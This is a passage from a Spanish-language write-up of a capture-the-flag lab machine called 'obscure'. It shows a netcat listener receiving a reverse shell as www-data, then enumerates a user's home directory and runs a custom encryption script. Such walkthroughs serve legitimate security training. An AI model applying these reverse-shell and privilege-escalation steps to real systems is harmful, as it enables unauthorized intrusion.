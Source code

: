 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.168] 35894
$ whoami
www-data
$ 
```

Como siempre, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty) para poder trabajar más cómodos. Ahora, vemos que no podemos visualizar la flag, por lo tanto vamos a enumerar un poco el sistema para ver la forma de escalar privilegios. Si entramos al recurso `/home/robert`, vemos algunos archivos en los cuales tenemos permisos de lectura y ejecución.

```bash
www-data@obscure:/home/robert$ ls -l
total 24
drwxr-xr-x 2 root   root   4096 Dec  2  2019 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
www-data@obscure:/home/robert$
```

Vemos un programa en python `SuperSecureCrypt.py`, así que antes de ver si código, vamos a ejecutarlo a ver que nos hace.

```bash
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py 
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Missing args
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -h
usage: SuperSecureCrypt.py [-h] [-i InFile] [-o OutFile] [-k Key] [-d]

Encrypt with 0bscura's encryption algorithm

optional arguments:
  -h, --help  show this help message and exit
  -i InFile   The file to read
  -o OutFile  Where to output the encrypted/decrypted file
  -k Key      Key to use
  -d          Decrypt mode
www-data@obscure:/home/robert$
```

Debido a los argmentos, así como al nombre del script, podemos intuir que nos ayuda a cifrar archivos a partir de una llave. Vamos a ver ahora el archivo `check.txt`.
